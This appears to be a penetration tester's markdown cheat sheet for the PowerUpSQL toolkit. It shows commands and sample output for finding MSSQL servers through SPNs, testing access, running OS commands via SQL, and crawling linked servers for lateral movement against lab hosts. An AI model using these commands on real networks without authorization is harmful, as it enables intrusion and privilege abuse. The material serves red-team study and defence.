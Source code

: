 # PowerUpSQL

## [[Vulnerable Machines]]
## Discovery
- `Get-SQLInstanceDomain`
  Searching for SPNs that begin with `MSSQL*`
- `Get-SQLInstanceBroadcast` 
- `Get-SQLInstanceScanUDP`
- [[BloodHound#Database Server]]

```ps
Get-SQLInstanceDomain

ComputerName     : srv1.edu.evil.corp
Instance         : srv1.edu.evil.corp,1433
DomainAccountSid : 150000[ ...snip... ]172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv1.edu.evil.corp:1433
LastLogon        : 5/14/2022 2:24 PM
Description      :
```

## Auto information gathering
```ps
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```

## Test Login
```ps
Get-SQLConnectionTest -Instance "srv1.edu.evil.corp,1433" | fl

ComputerName : srv1.edu.evil.corp
Instance     : srv1.edu.evil.corp,1433
Status       : Accessible
```

## Gather information
```ps
Get-SQLServerInfo -Instance "srv1.edu.evil.corp,1433"

ComputerName           : srv1.edu.evil.corp
Instance               : SRV1
DomainName             : EDU
ServiceProcessID       : 3960
ServiceName            : MSSQLSERVER
ServiceAccount         : EDU\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : EDU\john
IsSysadmin             : Yes
ActiveSessions         : 1
```

## SQL Query
```ps
Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select @@servername"

Column1
-------
SRV1
```

## [[SQL Command Execution]]
### Command Execution
```ps
Invoke-SQLOSCmd -Instance "srv1.edu.evil.corp,1433" -Command "whoami" -RawResults

edu\svc_mssql
```

## [[SQL Lateral Movement]]
### Crawl SQL Server Link
Manually querying databases to find links can be cumbersome and time-consuming, so you can also use `Get-SQLServerLinkCrawl` to automatically crawl all available links.
```ps
Get-SQLServerLinkCrawl -Instance "srv1.edu.evil.corp,1433"

Version     : SQL Server 2016 
Instance    : SRV1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1}
User        : EDU\john
Links       : {SQL-1.EVIL.CORP}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1, SQL-1.EVIL.CORP}
User        : sa
Links       : {SQL01.evil.external}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV1, SQL-1.EVIL.CORP, SQL01.evil.external}
User        : sa
Links       :
```

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/NetSPI/PowerUpSQL
description: SQL Exploitation Tools
```